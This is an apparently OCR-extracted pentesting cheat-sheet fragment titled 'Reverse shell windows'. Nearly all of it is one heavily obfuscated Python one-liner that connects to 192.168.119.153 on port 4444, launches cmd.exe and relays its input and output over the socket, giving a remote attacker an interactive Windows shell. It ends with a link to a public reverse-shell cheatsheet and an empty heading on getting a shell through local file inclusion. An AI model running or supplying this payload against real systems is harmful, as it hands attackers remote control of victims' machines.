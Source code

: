 **Reverse shell windows :**

C:\\Python27\\python.exe -c \"(lambda \_\_y, \_\_g, \_\_contextlib:
\[\[\[\[\[\[\[(s.connect((\'192.168.119.153\', 4444)),
\[\[\[(s2p_thread.start(), \[\[(p2s_thread.start(), (lambda \_\_out:
(lambda \_\_ctx: \[\_\_ctx.\_\_enter\_\_(), \_\_ctx.\_\_exit\_\_(None,
None, None), \_\_out\[0\](lambda:
None)\]\[2\])(\_\_contextlib.nested(type(\'except\', (),
{\'\_\_enter\_\_\': lambda self: None, \'\_\_exit\_\_\': lambda
\_\_self, \_\_exctype, \_\_value, \_\_traceback: \_\_exctype is not None
and (issubclass(\_\_exctype, KeyboardInterrupt) and \[True for
\_\_out\[0\] in \[((s.close(), lambda after:
after())\[1\])\]\]\[0\])})(), type(\'try\', (), {\'\_\_enter\_\_\':
lambda self: None, \'\_\_exit\_\_\': lambda \_\_self, \_\_exctype,
\_\_value, \_\_traceback: \[False for \_\_out\[0\] in \[((p.wait(),
(lambda \_\_after: \_\_after()))\[1\])\]\]\[0\]})())))(\[None\]))\[1\]
for p2s_thread.daemon in \[(True)\]\]\[0\] for \_\_g\[\'p2s_thread\'\]
in \[(threading.Thread(target=p2s, args=\[s, p\]))\]\]\[0\])\[1\] for
s2p_thread.daemon in \[(True)\]\]\[0\] for \_\_g\[\'s2p_thread\'\] in
\[(threading.Thread(target=s2p, args=\[s, p\]))\]\]\[0\] for
\_\_g\[\'p\'\] in
\[(subprocess.Popen(\[\'\\\\windows\\\\system32\\\\cmd.exe\'\],
stdout=subprocess.PIPE, stderr=subprocess.STDOUT,
stdin=subprocess.PIPE))\]\]\[0\])\[1\] for \_\_g\[\'s\'\] in
\[(socket.socket(socket.AF_INET, socket.SOCK_STREAM))\]\]\[0\] for
\_\_g\[\'p2s\'\], p2s.\_\_name\_\_ in \[(lambda s, p: (lambda \_\_l:
\[(lambda \_\_after: \_\_y(lambda \_\_this: lambda:
(\_\_l\[\'s\'\].send(\_\_l\[\'p\'\].stdout.read(1)), \_\_this())\[1\] if
True else \_\_after())())(lambda: None) for \_\_l\[\'s\'\],
\_\_l\[\'p\'\] in \[(s, p)\]\]\[0\])({}), \'p2s\')\]\]\[0\] for
\_\_g\[\'s2p\'\], s2p.\_\_name\_\_ in \[(lambda s, p: (lambda \_\_l:
\[(lambda \_\_after: \_\_y(lambda \_\_this: lambda: \[(lambda \_\_after:
(\_\_l\[\'p\'\].stdin.write(\_\_l\[\'data\'\]), \_\_after())\[1\] if
(len(\_\_l\[\'data\'\]) \> 0) else \_\_after())(lambda: \_\_this()) for
\_\_l\[\'data\'\] in \[(\_\_l\[\'s\'\].recv(1024))\]\]\[0\] if True else
\_\_after())())(lambda: None) for \_\_l\[\'s\'\], \_\_l\[\'p\'\] in
\[(s, p)\]\]\[0\])({}), \'s2p\')\]\]\[0\] for \_\_g\[\'os\'\] in
\[(\_\_import\_\_(\'os\', \_\_g, \_\_g))\]\]\[0\] for
\_\_g\[\'socket\'\] in \[(\_\_import\_\_(\'socket\', \_\_g,
\_\_g))\]\]\[0\] for \_\_g\[\'subprocess\'\] in
\[(\_\_import\_\_(\'subprocess\', \_\_g, \_\_g))\]\]\[0\] for
\_\_g\[\'threading\'\] in \[(\_\_import\_\_(\'threading\', \_\_g,
\_\_g))\]\]\[0\])((lambda f: (lambda x: x(x))(lambda y: f(lambda:
y(y)()))), globals(), \_\_import\_\_(\'contextlib\'))\"

**Payload reverse shell :**

[[https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md]{.underline}](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

Reverse shell via lfi :

